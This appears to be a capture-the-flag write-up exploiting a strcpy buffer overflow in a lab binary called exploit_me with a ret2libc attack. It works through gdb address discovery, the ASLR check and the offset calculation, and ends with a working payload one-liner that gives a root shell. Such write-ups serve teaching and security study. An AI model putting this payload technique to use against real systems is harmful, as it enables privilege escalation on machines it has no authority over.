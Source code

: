 # Buffer overflow identification.

In this user's home directory there is one binary called `exploit_me` and a `mail` directory. Let's forget about the directory and focus on the binary. Using `gdb` we can see the following.

```gdb
  $> gdb ./exploit_me
  (gdb) disas main
  Dump of assembler code for function main:
    0x080483f4 <+0>:     push   %ebp
    0x080483f5 <+1>:     mov    %esp,%ebp
    0x080483f7 <+3>:     and    $0xfffffff0,%esp
    0x080483fa <+6>:     sub    $0x90,%esp
    0x08048400 <+12>:    cmpl   $0x1,0x8(%ebp) // Check for 1 argument
    0x08048404 <+16>:    jg     0x804840d <main+25>
    0x08048406 <+18>:    mov    $0x1,%eax
    0x0804840b <+23>:    jmp    0x8048436 <main+66>
    0x0804840d <+25>:    mov    0xc(%ebp),%eax
    0x08048410 <+28>:    add    $0x4,%eax
    0x08048413 <+31>:    mov    (%eax),%eax
    0x08048415 <+33>:    mov    %eax,0x4(%esp)
    0x08048419 <+37>:    lea    0x10(%esp),%eax
    0x0804841d <+41>:    mov    %eax,(%esp)
    0x08048420 <+44>:    call   0x8048300 <strcpy@plt> // Copy $ebp somewhere else
    0x08048425 <+49>:    lea    0x10(%esp),%eax
    0x08048429 <+53>:    mov    %eax,(%esp)
    0x0804842c <+56>:    call   0x8048310 <puts@plt> // Prints the result of strcpy()
    0x08048431 <+61>:    mov    $0x0,%eax
    0x08048436 <+66>:    leave
    0x08048437 <+67>:    ret
  End of assembler dump.
```

> Apparently, this program need one argument. It simply use [`strcpy()`](https://man7.org/linux/man-pages/man3/strcpy.3.html) to copy whatever we send before printing it using [`puts()`](https://man7.org/linux/man-pages/man3/puts.3.html). As stated in the man of `strcpy()`, If the destination string of a `strcpy()` is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.

We can create a **buffer overflow** that will override what's stored on [EIP register](https://security.stackexchange.com/questions/129499/what-does-eip-stand-for), to execute arbitrary code. This exploit is called a [ret2libc attack](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3). To perform this attack we'll need few things:

- Find where [`system()`](https://man7.org/linux/man-pages/man3/system.3.html), [`exit()`](https://man7.org/linux/man-pages/man3/exit.3.html) and `/bin/sh` are stored in memory.
- Find where the buffer and EIP addresses are.

# Analyze program and environment.

Let's use a quick gdb routine to get these informations...

```gdb
file /home/zaz/exploit_me
b *0x08048425
r 0000000000000000000000000000
p &system
p &exit
find &system, +999999999, "/bin/sh"
x $esp
info frame
```

> We create a breakpoint after `strcpy()` to locate where is the buffer using [ESP register](https://stackoverflow.com/questions/21718397/what-are-the-esp-and-the-ebp-registers), then we run the program with some arbitrary input. Get the adresses of `system()`, `exit()` and locate adress of `/bin/sh` between adresses of system and the rest of memory space. Finally fetch `esp` and `eip` using the [stack frame](https://www.techopedia.com/definition/22304/stack-frame#:~:text=A%20stack%20frame%20is%20a,pertaining%20to%20a%20subprogram%20call.&text=A%20stack%20frame%20also%20known%20as%20an%20activation%20frame%20or%20activation%20record.).

Running this routine gives the following:

```gdb
  $> gdb -x ret2libc.gdb --batch
  Breakpoint 1 at 0x8048425

  Breakpoint 1, 0x08048425 in main ()
  $1 = (<text variable, no debug info> *) 0xb7e6b060 <system>
  $2 = (<text variable, no debug info> *) 0xb7e5ebe0 <exit>  
  0xb7f8cc58
  warning: Unable to access target memory at <SOME-ADRESS>, halting search.
  1 pattern found.
  <SOME-ADRESS>: 0xbffff5b0
  Stack level 0, frame at <SOME-ADRESS>:
    eip = 0x8048425 in main; saved eip <SOME-ADRESS>
    Arglist at <SOME-ADRESS>, args:
    Locals at <SOME-ADRESS>, Previous frame's sp is <SOME-ADRESS>
    Saved registers:
      ebp at <SOME-ADRESS>, eip at 0xbffff63c
```

> `system()` is at address `0xb7e6b060`, `exit()` at `0xb7e5ebe0` and `/bin/sh` at `0xb7f8cc58`. **ESP** is at `0xbffff5b0` and **EIP** is at `0xbffff63c` in this case.

Now we need to check few things before trying to exploit this vulnerability. First, [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) must be off and the [endianness](https://en.wikipedia.org/wiki/Endianness) of this machine.

```shell
  $> sysctl kernel.randomize_va_space
  kernel.randomize_va_space = 0
  $> lscpu | grep Endian
  Byte Order: Little Endian
```

> According to this [thread](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), **ASLR** is disabled, and this machine is in little endian, we'll need to reverse byte order to get the right addresses.

# Compute buffer offset.

In order to perform this attack we need to generate a segfault in the program. In this case, it means to find the offset from which we start to override stored addresses in **EIP**. To do so, we simply substract the address of **ESP** to **EIP**.

```shell
 $> echo 'ibase=16; BFFFF63C - BFFFF5B0' | bc
 140
```

> Thanks to [`bc`](https://linux.die.net/man/1/bc) we can quickly substract these two by specifying the input base, here **hexadecimal** (16).

Now that we know that the offset must be **140 bytes** we can check it easily using [python string multiplication](https://www.pythoncentral.io/use-python-multiply-strings/).

```shell
  $> ./exploit_me `python -c "print '0' * 139"`
  0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  $> ./exploit_me `python -c "print '0' * 140"`
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  Illegal instruction (core dumped)
```

> **139 bytes** works perfectly, **140 and above** segfaults.

# Ret2libc attack.

Final step is to construct a sequence of bytes after this offset that will execute in order `system()`, `exit()` and finally `/bin/sh` and we have all these addresses to do so!

```shell
  $> ./exploit_me `python -c 'print("\x90"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`X
  # id
  uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
  # whoami
  root
```

> In Python, `[::-1]` is a way to reverse string, needed here to swap between big and litle endian.

As you can see, we are now root on this machine!
